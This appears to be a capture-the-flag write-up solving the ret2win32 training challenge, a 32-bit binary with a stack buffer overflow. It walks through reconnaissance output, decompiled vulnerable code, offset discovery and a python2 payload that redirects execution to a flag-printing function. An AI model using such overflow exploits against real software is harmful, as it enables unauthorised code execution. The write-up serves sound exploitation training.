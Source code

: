 ## Write-up:
`ret2win32` binary is a standard Intel 32-bit ELF.
```bash
$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped

```
`readelf` shows a couple of suspiciously named functions, being `pwnme` and `ret2win`:
```bash
$ readelf ret2win32 -Ws | grep FUNC
...
    36: 080485ad   127 FUNC    LOCAL  DEFAULT   14 pwnme
    37: 0804862c    41 FUNC    LOCAL  DEFAULT   14 ret2win
...
```
`checksec` shows `NX` bit is set for the binary and `PIE` is off:
```bash
$ checksec --file=ret2win32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   72 Symbols        No    0               3               ret2win32
```
Opening this binary up in Ghidra shows `main` calls `pwnme`, which looks like:
```c
void pwnme(void)
{
  undefined local_2c [40];
  memset(local_2c,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,local_2c,0x38);
  puts("Thank you!");
  return;
}
```
And `ret2win` looks like:
```c
void ret2win(void)
{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```
So to win, I need to cause a buffer overflow in `pwnme` to change the return address to `ret2win`.
![[Pasted image 20231215170018.png]]
![[Pasted image 20231215170103.png]]
Using `gdb-peda`'s pattern functionality, I have found that the offset from the buffer to the functions return address is 44 bytes.
Now, I need the address of ret2win:
```bash
gdb-peda$ p ret2win
$1 = {<text variable, no debug info>} 0x804862c <ret2win>
```
So `0x0804862c` is the address of `ret2win`. I'll now use the gathered information to build a payload.
```bash
python2 -c 'print "\x00"*44 + "\x2c\x86\x04\x08"' > payload.txt
```
Now to throw the exploit with:
```bash
./ret2win32 < payload.txt
```
![[Pasted image 20231215171642.png]]
As shown in the above picture, the exploit was successful, and the program executed the `ret2win` function which prints the "flag".